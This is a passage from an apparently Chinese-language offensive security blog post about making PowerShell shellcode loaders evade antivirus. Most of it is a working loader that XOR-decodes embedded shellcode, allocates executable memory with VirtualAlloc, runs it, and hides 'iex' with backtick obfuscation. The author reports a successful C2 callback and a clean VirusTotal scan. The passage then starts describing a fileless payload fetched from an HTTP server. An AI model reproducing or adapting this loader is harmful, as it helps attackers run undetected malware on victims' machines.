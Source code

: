 ```text
	$atype_b.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $aparameters).SetImplementationFlags('Runtime, Managed')
	$atype_b.DefineMethod('Inv'+'oke', 'Public, HideBySig, NewSlot, Virtual', $areturn_type, $aparameters).SetImplementationFlags('Runtime, Managed')

	return $atype_b.CreateType()
}

[Byte[]]$acode =  [Byte[]](这里放刚刚转码后的FromBase65String)

for ($x = 0; $x -lt $acode.Count; $x++) {
	$acode[$x] = $acode[$x] -bxor 35
}

$ava = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_b kernel32.dll VirtualAlloc), (func_a @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
$abuffer = $ava.Invoke([IntPtr]::Zero, $acode.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($acode, 0, $abuffer, $acode.length)

$arunme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($abuffer, (func_a @([IntPtr]) ([Void])))
$arunme.Invoke([IntPtr]::Zero)
'@

If ([IntPtr]::size -eq 8) {
	start-job { param($a) ie`x $a } -RunAs32 -Argument $DoIt | wait-job | Receive-Job
}
else {
	i`ex $DoIt
}
```

先使用看有没有改到不能上线，再检测免杀能力。

可以成功上线，再来测试免杀。VT完美免杀

![](https://image.3001.net/images/20200911/1599794187.png!small)

![](https://image.3001.net/images/20200911/1599794252.png!small)

## 0x03 生成无落地执行Powershell文件

生成无落地执行powershell文件

![](https://image.3001.net/images/20200911/1599794400.png!small)

访问[http://xxx.xx.xxx.xx:80/a](http://0.0.0.0/a)这个连接看看文件内容，并保存下来

![](https://image.3001.net/images/20200911/1599794823.png!small)

查看VT，一列全红，要是我买的股票这样多好，扯远了，
